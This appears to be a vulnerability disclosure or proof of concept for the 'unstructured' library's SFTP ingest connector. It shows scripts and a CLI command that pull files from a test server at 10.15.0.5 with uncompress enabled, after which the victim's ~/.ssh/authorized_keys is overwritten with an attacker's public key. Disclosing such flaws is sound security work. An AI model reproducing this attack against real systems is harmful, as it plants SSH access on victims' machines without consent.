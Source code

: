 ```
pip install unstructured
pip install "unstructured[sftp]"
```

Using [python snippets](https://docs.unstructured.io/open-source/ingest/source-connectors/sftp) in offical document to fetch all documents from sftp server, note that with `uncompress=True` set, save as `unstructured_sftp.py`:

```
from unstructured.ingest.interfaces import (
    PartitionConfig,
    ProcessorConfig,
    ReadConfig,
)
from unstructured.ingest.runner import SftpRunner

if __name__ == "__main__":
    runner = SftpRunner(
        processor_config=ProcessorConfig(
            verbose=True,
            output_dir="sftp-output",
            num_processes=2,
        ),
        read_config=ReadConfig(),
        partition_config=PartitionConfig(),
        connector_config=SimpleSftpConfig(
            access_config=SftpAccessConfig(
                username="foo",
                password="pass",
            ),
            remote_url="sftp://10.15.0.5:2222/upload",
            recursive=True,
            uncompress=True
        ),
    )
    runner.run()
```

Lauch the attack, the file `/home/kali/.ssh/authorized_keys` in local system is overwritten

```
python unstructured_sftp.py

> cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

Or just using [`unstructured-ingest sftp` shell command](https://docs.unstructured.io/open-source/ingest/source-connectors/sftp) with `--uncompress` enabled:

```
> unstructured-ingest \
  sftp \
  --remote-url sftp://10.15.0.5:2222/upload \
  --username "foo" \
  --password "pass" \
  --num-processes 2 \
  --recursive \
  --uncompress \
  --verbose


> cat /home/kali/.ssh/authorized_keys
```